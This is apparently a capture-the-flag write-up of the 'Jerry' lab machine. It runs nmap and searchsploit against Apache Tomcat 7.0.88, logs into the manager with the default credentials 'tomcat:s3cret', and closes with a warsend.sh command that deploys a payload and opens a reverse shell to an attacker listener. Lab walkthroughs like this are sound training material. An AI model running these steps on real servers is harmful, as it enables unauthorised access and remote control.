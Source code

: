 # Jerry

## NMAP

* Nmap result

```console
PORT STATE SERVICE REASON VERSION
8080/tcp open http syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

## Searchsploit

* `searchsploit Tomcat 7.0.88`

```text
------------------------------------------------------------------------------------------------ ---------------------------------

Exploit Title | Path

------------------------------------------------------------------------------------------------ ---------------------------------

Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code | jsp/webapps/42966.py

Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code | windows/webapps/42953.txt

------------------------------------------------------------------------------------------------ ---------------------------------
```

* `Not Vulnerable to CVE-2017-12617`

## Tomcat

* Running Default creds to access the /manage/html endpoint from [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)
* `tomcat:s3cret`

## Shell

* Using [Warsend]([https://github.com/thewhiteh4t/warsend](https://github.com/thewhiteh4t/warsend)) and the above credentials we can get a shell back

```bash
./warsend.sh 10.10.10.10 9001 10.10.10.1 8080 tomcat s3cret revshell
```

![shell](../images/jerry-shell.png)